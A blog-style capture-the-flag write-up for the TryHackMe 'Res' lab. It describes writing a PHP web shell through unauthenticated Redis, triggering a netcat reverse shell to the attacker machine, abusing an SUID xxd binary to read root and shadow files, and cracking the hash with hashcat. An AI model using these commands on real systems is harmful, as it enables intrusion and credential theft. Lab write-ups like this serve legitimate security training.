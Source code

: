 ```yaml
---
layout: post
title: THM RES  writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/res/0.head.png">
<!--more-->
<p></p>
<a href="https://tryhackme.com/room/res" target="_blank" > Click here to access this box on tryHackMe.com</a>
<hr>


<p>Enumerating  ports with a basic NMAP Scan.</p>
<img src="/img/res/1.nmap-scan-1.png">

<p>Only one port shows to be open. Let’s enumerate it further for version,service and os detection. </p>
<img src="/img/res/2.nmap-scan-2.png">

<p>Now let's check all 65k ports with nmap.</p>
<p>We only have two open ports. Port 80 running Apache and port 6379 running Redis db. version 6.0.7</p>
<img src="/img/res/4.nmap-scan-2.png">

<p>Navigating in a web browser to port 80 we find the default Apache web page. Let’s quickly check the source code, start up gobuster. </p>
<img src="/img/res/3.defult-apache-page.png">

<p>Nothing of interest in the default web page’s source code. Let’s get gobuster working on brute forcing sub directories</p>
<img src="/img/res/5.gobuster-start.png">

<p>while we wait on gobuster, let’s do some research on the Redis 6.0.7 db </p>


<p>After installing the redis-server on my local machine and enumerating the Redis db I discovered I could connect to the db via shell with no authentication. I also found a possible username vianka by running the info command  </p>
<img src="/img/res/6.Redis-db-enum.png">


<p>Since ssh isn’t open we’re going to need a webshell.</p>
<p> here’s a link to an article about this https://book.hacktricks.xyz/pentesting/6379-pentesting-redis  
<img src="/img/res/7.hacktricks-webshell.png">

<p>I assumed the Apache was serving the site in the default directories due to the default web page I found.In the Redis-cli I changed the dir to /var/www/html and set the db file name to shell.php</p>
<p>config set dir /var/www/html</p>
<p>config set dbfilename shell.php</p>
<p> set test "php commad here"</p>

<img src="/img/res/8.redis-commands-test-php.png">

<p>Navigating to [host ip]/redis.php  we can confirm the php is working. Now we need to upload a php reverse shell payload</p>
<img src="/img/res/9.php-test-payload.png">

<p>Let’s setup a listener with netcat on our local machine </p>
<img src="/img/res/10.setup-listner.png">

<p>Now change test to "php system get command here" using the redis-cli </p>
<img src="/img/res/12.php-oneliner.png">

<p> now we can issue command injection in the web browser</p>
<p>http://[host]/Redis.php?cmd=nc [attack machine] [port] -e /bin/sh</p>



<p>Now we have a shell on the host</p>
<img src="/img/res/16.first-shell.png">




<p>Now we have a shell on the host</p>
<img src="/img/res/16.first-shell.png">

<p>Let’s cat the user.txt file and begin eumurnating for a privilege escalation </p>
<img src="/img/res/17.cat.user.txt.png">



<p>If you run linpease there will find the xxd binary with SUID set. Let’s check GTFObins </p>
<img src="/img/res/19.gtfo.bins.png">

<p>here's how I abused the xxd binary:  </p>
<p>LFILE=/root/root.txt  </p>
<p> usr/bin/xxd "$LFILE" | xxd -r usr/bin/xxd "$LFILE" | xxd -r </p>
<img src="/img/res/18.root.txt.png">

<p>To complete the box we still need the local users password. Let’s abuse the xxd binary so we read the shadow file. Copy the users hash and try and crack it offline</p>
<img src="/img/res/20.user-hash.png">

<p>Here I used a hashcat with the rockyou password list, set the mode to 1800 and hashcat cracked the password in 5 seconds. Now we can complete this box with the user password.   </p>
<img src="/img/res/22.hashcat.png">
